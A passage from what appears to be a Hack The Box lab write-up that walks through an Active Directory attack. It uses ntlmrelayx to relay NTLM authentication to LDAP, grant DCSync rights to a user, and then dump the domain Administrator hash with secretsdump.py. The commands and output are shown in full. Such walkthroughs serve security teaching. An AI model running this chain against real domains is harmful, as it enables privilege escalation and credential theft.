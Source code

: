 According to this picture from the earlier post, we will need to run `ntlmrelayx` on our machine.
{% highlight bash %}
$ ntlmrelayx.py -t ldap://htb.local --escalate-user rizemon
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
{% endhighlight %}

With that done, we need to get the `Exchange` Server to perform `NTLM` authentication to us over `HTTP`. However, there is no `Exchange` server running on the box! Since we already have a user in the `EXCHANGE WINDOWS PERMISSIONS` group, we can simply use our own browser to do the authentication.

Opening any browser, we browse to `http://localhost/privexchange`. We will then be prompted for credentials, where we enter those of our newly created user and hit `OK`.

Back on our `ntlmrelayx`, we see that our new user has gotten the necessary privileges to perform `DCSync` operations!

{% highlight bash %}
*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://htb.local
[*] HTTPD: Client requested path: /privexchange
[*] HTTPD: Client requested path: /privexchange
[*] Authenticating against ldap://htb.local as \rizemon SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Modifying domain ACL
[*] Querying domain security descriptor
[*] Success! User rizemon now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20191229-070933.restore
{% endhighlight %}

And now the last step is to obtain the hash for the domain administrator account using `impacket`'s [`secretsdump.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py).

{% highlight bash %}
$ python secretsdump.py 'htb.local/rizemon:Password123!@htb.local' -just-dc
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
{% endhighlight %}
